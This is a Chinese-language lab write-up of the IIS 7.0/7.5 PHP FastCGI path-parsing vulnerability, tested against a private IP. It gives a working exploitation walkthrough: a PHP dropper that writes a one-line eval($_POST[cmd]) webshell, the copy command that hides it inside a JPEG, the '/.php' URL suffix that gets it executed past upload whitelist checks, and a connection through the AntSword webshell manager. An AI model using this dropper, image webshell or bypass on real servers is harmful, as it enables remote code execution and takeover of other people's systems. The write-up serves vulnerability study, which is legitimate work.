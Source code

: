 # IIS7.0/7.5解析漏洞

> IIS7.0/7.5本身没有解析漏洞，但是当IIS通过[FastCGI](https://baike.baidu.com/item/FastCGI)解析PHP语言时，由于FastCGI配置中的cgi.fix_pathinfo默认为1（即开启状态），导致在对文件进行解析时形成解析漏洞，因此，IIS7.0/7.5解析漏洞实际上是PHP FastCGI解析漏洞

## 漏洞原理

> 如果IIS7.0/7.5通过FastCGI的方式支持PHP解析，当访问`http://172.16.16.24/index.jpg/xx.php`时，$fastcgi_script_name会被设置为 `index.jpg/xx.php`，如果开启cgi.fix_pathinfo，PHP会认为SCRIPT_FILENAME是`index.jpg`，而`xx.php`是PATH_INFO，所以就会将`index.jpg`作为PHP文件来进行解析，从而形成解析漏洞

:pencil:**Thinking**  

> 通过上传点，上传一个包含木马的任意格式的文件，在菜刀连接时或者解析时，在完整访问路径下添加`/*.php`（无论`*.php`文件是否存在），该文件就会以PHP的形式进行解析

## 测试环境

- **操作系统**：Windows Server 2008 R2
- **应用服务**：IIS 7.5
- **解析语言**：PHP 7.2.17
- **测试时间**：2019/4/25

## 测试过程

### 0x01 漏洞测试

> 在IIS服务器下上传一个phpinfo文件，并以`.doc`命名

```php
<?php phpinfo();?>
```

![iis7.5_0005](https://github.com/GHlyanin/File-parsing-vulnerability/blob/master/IIS/IIS_7.0_7.5/image/iis7.5_0005.PNG)

> 在浏览器中访问如下路径，以`.doc`命名的PHP文件正常解析

```http
http://172.16.16.24/a.doc/.php
```

![iis7.5_0001](https://github.com/GHlyanin/File-parsing-vulnerability/blob/master/IIS/IIS_7.0_7.5/image/iis7.5_0001.PNG)

:pencil:**Thinking**  

> 此处对`.doc`、`.jpg`、`.txt`、`.asp`等格式的PHP文件进行了测试，均存在该解析漏洞

### 0x02 漏洞利用

> 通过上传点，上传一个图片木马，然后访问该图片木马，让其在本目录下生成一个shell.php，通过该方法可以绕过上传白名单检测，文件内容检测

**制作图片木马**

> 一张正常图片b.jpg和一个内容如下的a.txt

```php
<?php fputs(fopen('shell.php','w'),'<?php @eval($_POST[cmd])?>');?>
```

:pencil:**Thinking**  

> 该PHP的意义是：当该PHP文件解析时，会在相同目录下生成一个包含一句话木马的shell.php文件，其中写入的一句话木马可以根据实际环境进行修改。本实验采用的PHP版本大于7，在PHP7之后的版本，PHP语言做了更改，很多函数无法使用，所以PHP小于7的木马文件在本环境中很可能无法使用，并且菜刀在实现文件管理器的时候用的是assert函数，这导致菜刀没办法在PHP7上正常运行，由于蚁剑没有用到assert函数，所以本测试使用蚁剑作为一句话木马的文件管理器。

> 使用cmd中的copy命令生成图片木马，将文本写入图片的二进制代码之后，避免破坏图片头和尾

```
copy b.jpg/b + a.txt/a ab.jpg
```

![iis7.5_0002](https://github.com/GHlyanin/File-parsing-vulnerability/blob/master/IIS/IIS_7.0_7.5/image/iis7.5_0002.PNG)

**文件上传和解析**

> 把制作的图片木马上传至网站目录下，然后在浏览器中访问如下地址，会发现该图片木马正常解析，并在该图片相同目录下生成shell.php文件

```http
http://172.16.16.24/ab.jpg/.php
```

![iis7.5_0001](https://github.com/GHlyanin/File-parsing-vulnerability/blob/master/IIS/IIS_7.0_7.5/image/iis7.5_0001.PNG)

![iis7.5_0001](https://github.com/GHlyanin/File-parsing-vulnerability/blob/master/IIS/IIS_7.0_7.5/image/iis7.5_0001.PNG)

**蚁剑连接**

> 通过蚁剑连接shell.php，可以正常连接

![iis7.5_0001](https://github.com/GHlyanin/File-parsing-vulnerability/blob/master/IIS/IIS_7.0_7.5/image/iis7.5_0001.PNG)

![iis7.5_0001](https://github.com/GHlyanin/File-parsing-vulnerability/blob/master/IIS/IIS_7.0_7.5/image/iis7.5_0001.PNG)

:pencil:**Thinking**  

> 思考





























